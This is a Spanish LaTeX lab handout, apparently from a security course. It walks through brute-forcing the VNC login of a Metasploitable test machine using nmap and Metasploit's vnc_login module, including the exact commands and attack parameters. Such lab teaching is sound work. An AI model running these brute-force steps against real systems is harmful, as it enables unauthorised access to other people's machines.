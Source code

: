\documentclass[a4,12pt,onecolum]{article}
\begin{document}

\subsection{Fuerza bruta}
A continuación, se muestra un ataque al servicio VNC por \emph{fuerza bruta}. La fuerza bruta, consiste autenticarse usando diferentes contraseñas hasta que se encuentra la correcta, estas contraseñas pueden generarse de forma aleatoria o se puede hacer uso de un \emph{diccionario}. \\

\begin{enumerate}
	\item Realizamos un escaneo de puertos para verificar que el de VNC está abierto. Con NMAP se ve claramente, indica el nombre de servicio.
	\begin{verbatim}
		$ sudo nmap metasploitable
	\end{verbatim}

	\item Accedemos a la consola de Metasploit.
		\begin{verbatim}
			$ sudo msfconsole
		\end{verbatim}

	\item Realizamos una búsqueda de los módulos relativos a VNC.
		\begin{verbatim}
			msf > search vnc
		\end{verbatim}

	\item Utilizaremos el módulo \emph{vnc\_login}, lo selecionamos.
		\begin{verbatim}
			msf > use auxiliary/scanner/vnc/vnc_login
		\end{verbatim}

	\item Fijamos los parámetros del ataque. Figura \ref{fig:vnc1}.
		\begin{enumerate}
			\item Máquina objetivo \emph{metasploitable}.
			\item Número de hilos de ejecución 20.
			\item Velocidad de prueba de credenciales.
		\end{enumerate}
		\begin{verbatim}
			msf auxiliary(vnc\_login) > set RHOSTS metasploitable
			msf auxiliary(vnc\_login) > set THREADS 20
			msf auxiliary(vnc\_login) > set BRUTEFORCE_SPEED 1
		\end{verbatim}


\end{enumerate}
\end{document}
